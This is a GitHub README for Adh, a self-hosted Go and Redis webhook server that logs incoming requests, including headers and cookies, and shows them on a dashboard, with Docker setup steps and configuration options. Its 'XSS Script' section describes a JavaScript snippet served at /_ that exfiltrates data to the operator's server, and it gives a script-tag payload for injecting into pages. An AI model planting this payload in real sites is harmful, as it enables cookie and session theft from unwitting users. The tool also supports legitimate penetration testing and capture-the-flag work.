




# Adh (Advanced Detailed Hook)

<p align="center">
  
</p>

This project was born from the need to have a personal and fully customizable webhook service to deploy on a VPS, without relying on external tools like webhook.site, localtunnel, ngrok, or similar services.
It offers flexibility for a wide range of use cases, such as request logging, payload inspection, or data collection, making it a versatile tool for developers and cybersecurity professionals alike.

### 🧩 Overview

The core of this project is a simple webhook server that listens for incoming HTTP requests, logs the relevant information, and stores request data in Redis. It is built with Go for the backend and uses Redis for storage. The project aims to be lightweight, flexible, and simple to set up, but with room for expansion (such as adding a dashboard).


### 🚀 Features

- **Data Logging**: Logs requests including headers, cookies, body content, and user agent.
- **Redis Integration**: Store incoming request data in Redis, making it easy to scale or manage.
- **XSS Exploit Script**: Serve a simple exploit script for XSS attacks (stealed from xss.report).
- **High customizability**: Customize the server to fit your needs.
- **Search Bar Support**: Add a search bar for requests with ***RedisSearch syntax***.

### 📊 Dashboard

Below are some screenshots of the dashboard:

|  |  |
|-------------------------------------------|-------------------------------------------|
|  |  |


### ⚙️ Installation

To get started with the Adh, follow the steps below:

#### Prerequisites

- A machine exposed to the Internet (this tool is not a tunnelling solution such as ngrok or Localtunnel).
- Docker and Docker Compose installed on your machine.

#### Clone the Repository

```bash
git clone https://github.com/akiidjk/adh.git
cd adh
```

#### Set Up Docker Containers

1. Copy the .env.example file to .env and customize the environment variables as needed:

```bash
cp .env.example .env
```

2. Now you can build and start your containers with:

```bash
docker-compose up --build -d
```

#### Access the Webhook

Once the containers are running, you can access your webhook on:

```
http://localhost:8000
```

The server will now be accepting requests on the specified port (8000 by default).

#### Access the Dashboard

Once the containers are running, you can access your dashboard on:

```
http://localhost:3000
```

The dashboard will allow you to view all requests.

### 🛠 Configuration

The following environment variables are available for customization:

- **LOG_LEVEL**: Log level for the application. Options are `debug`, `info`, `warn`, `error`. Defaults to `info`.
- **WEBHOOK_PORT**: Port for the webhook server. Defaults to `8000`.
- **DASHBOARD_PORT**: Port for the dashboard server. Defaults to `3000`.
- **SECRET_KEY**: Secret key for the application. Set this to a secure value.
- **REDIS_ADDR**: Address of the Redis server. Defaults to `redis` (for Docker) or `localhost`.
- **REDIS_PORT**: Port for the Redis server. Defaults to `6379`.
- **REDIS_PASSWORD**: Password for the Redis server. Set this to a secure value.
- **REDIS_URL**: Full Redis connection URL. Example: `redis://:secure_password@redis:6379/0`
- **USER_ID**: User ID for the frontend/dashboard. Defaults to `0`.
- **USER_NAME**: Username for the frontend/dashboard. Defaults to `akiidjk`.
- **USER_PASSWORD**: Password for the frontend/dashboard. Set this to a secure value.

### 🔍 Health Check

A background goroutine regularly pings Redis to ensure availability, reporting status via an internal channel. The check interval is configurable.

### 📁 Log Storage

The application saves all logs to a folder on your host machine. The logs are stored in the `./adh-webhook/logs` directory on your host system, ensuring that the logs persist even when the container is restarted or destroyed. This is done via Docker bind mounts, which map the `./adh-webhook/logs` folder on your local machine to `/tmp/webhook` in the container.

### 🧪  Example Request

Try sending a POST request:

```bash
curl -X POST http://localhost:8000 -H "Content-Type: application/json" -d '{"key":"value"}'
```

### 🐛  XSS Script

Available at the /_ endpoint, Adh serves a JavaScript snippet (inspired by xss.report) that exfiltrates data via a request to your server.

Example payload:

```js
<script src="http://localhost:8000/_"></script>
```

Customize the domain in the script if running Adh on a different host.

### 📌 To-Do

- [x] **Dashboard**: The current project lacks a UI dashboard to visualize requests and data. This will be added in the future.
- [x] **Authentication**: Implement an authentication mechanism to restrict access to the webhook dashboard.
- [x] Fix http problem with Docker
- [x] Implement rate limiting to prevent abuse
- [x] Add logout button
- [x] Add search bar for requests
- [x] Add clear button

### 🤝 Contributing

Pull requests, issues, and forks are welcome! If you have an idea or fix, feel free to contribute.

### 📝 License

Licensed under the MIT License — see the [LICENSE](LICENSE) file for details.

### 📎 Conclusion

Adh is a self-hosted, fast, and flexible solution for managing and inspecting HTTP requests in real time. Whether you're debugging, collecting data, or simulating attacks, Adh is ready to be tailored to your workflow.
